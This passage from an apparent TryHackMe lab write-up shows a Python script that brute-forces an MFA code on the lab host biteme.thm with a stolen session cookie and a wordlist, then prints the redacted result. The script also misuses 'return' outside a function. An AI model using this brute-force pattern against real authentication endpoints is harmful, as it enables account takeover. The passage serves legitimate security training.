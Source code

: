 And then use another one to brute-force:

{% highlight python linenos %}
import requests

# Specify the target:

url = "http://biteme.thm/console/mfa.php"
cookies = {"PHPSESSID":"vhv3t7j6fuivi9253r7094oadn", "pwd":"[REDACTED]", "user":"[REDACTED]"}
data = {"code":"1234"}

# Set the false statement

error = "Incorrect code"

# Add the list of code number into array

codeLst = []
mfa_file = open("mfa_codes.txt","r")
codes = mfa_file.read()
codeLst = (codes.split("\n"))
codeLst.remove('') # Remove the empty element

for code in codeLst:
    data = {"code": code}
    response = requests.post(url,cookies=cookies,data=data)
    if not error in response.text:
        print(data)
        return
{% endhighlight %}

And this is my result:

```
┌──(kali㉿kali)-[~/TryHackMe/biteme]
└─$ python3 bf_mfa.py
{'code': '[REDACTED]'}
```

I submit this code on the application and route to the **dashboard** page:
